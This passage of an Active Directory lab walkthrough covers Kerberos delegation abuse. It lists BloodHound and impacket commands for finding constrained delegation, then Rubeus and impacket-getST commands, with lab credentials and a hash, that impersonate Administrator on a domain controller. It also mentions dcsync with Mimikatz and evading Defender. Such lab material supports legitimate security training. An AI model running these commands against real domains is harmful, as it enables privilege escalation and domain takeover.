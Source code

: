 
> Another way of exploitation, is to do a ptt with Rubeus and launch a dcsync with Mimikatz but this implies to run Mimikatz on Winterfell and bypass the defender AV

> Unless you didn’t notice, the unconstrained delegation abuse was here exploited to pass from the child to the parent domain ;)

## Constrained Delegation

- Find constrained delegation with bloodhound :
```
MATCH p=(u)-[:AllowedToDelegate]->(c) RETURN p
```


> Remark : sharphound seems to not capture the constrained delegation without protocol transition in the lab

- Find all the constrained delegation with impacket :

```
impacket-findDelegation NORTH.SEVENKINGDOMS.LOCAL/arya.stark:Needle -target-domain north.sevenkingdoms.local
```
![screenshot](pics/findDelegation.png)

### With protocol transition

- To abuse the constrained delegation with protocol transition, the concept is to first ask a TGT for the user and execute S4U2Self followed by a S4U2Proxy to impersonate an admin user to the SPN on the target.
    
- From windows with Rubeus:
```
.\Rubeus.exe asktgt /user:jon.snow /domain:north.sevenkingdoms.local /rc4:B8D76E56E9DAC90539AFF05E3CCB1755
.\Rubeus.exe s4u /ticket:put_the__previous_ticket_here /impersonateuser:administrator /msdsspn:CIFS/winterfell /ptt
```    


- From linux with impacket:

```
impacket-getST -spn 'CIFS/winterfell' -impersonate Administrator -dc-ip '192.168.56.11' 'north.sevenkingdoms.local/jon.snow:iknownothing'
```
![screenshot](pics/constraint_del_get_tgt.png)
